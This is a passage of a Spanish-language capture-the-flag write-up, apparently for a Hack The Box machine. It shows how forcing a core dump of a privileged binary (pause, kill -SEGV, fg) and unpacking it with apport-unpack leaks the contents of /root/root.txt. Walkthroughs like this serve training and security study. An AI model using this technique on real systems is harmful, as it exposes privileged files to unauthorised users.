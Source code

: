 Ahora sabemos que el binario tiene permisos para leer informacion privilegiada, podriamos introducir el archivo que queramos leer, pausar el programa (Ctrl+Z), matar el proceso del programa (kill) para que cuando queramos volver al programa (fg) falle y se guarde la informacion y luego dumpearla.

Hagamos eso, en este caso veamos si funciona y podemos obtener la flag de root (**/root/root.txt**)

```bash
./count #ejecutamos el binario
/root/root.txt #le indicamos el archivo que queremos leer
Ctrl+Z #pausamos el proceso
ps #vemos los procesos que se estan ejecutando para obtener el PID del binario
kill -SEGV PID # matamos el proceso del binario
fg #regresamos a la ejecucion del binario

```

Esto fallara y ya se explico el por que, vemos el mensaje del **core dumped**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/37.png)

recordemos que esto se guarda en **/var/crash**, veamos que hay ahi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/38.png)

se creo un archivo y nos podemos dar cuenta por la fecha y el propietario. Ahora ese archivo nos importa el `coredump` ahi esta la informacion del archivo que le pasamos al binario, podemos separar el coredump en un archivo aparte  para  ello usaremos una herramienta propia de linux llamada `apport-unpack`:

```bash
apport-unpack _opt_count.1000.crash /tmp/files
```
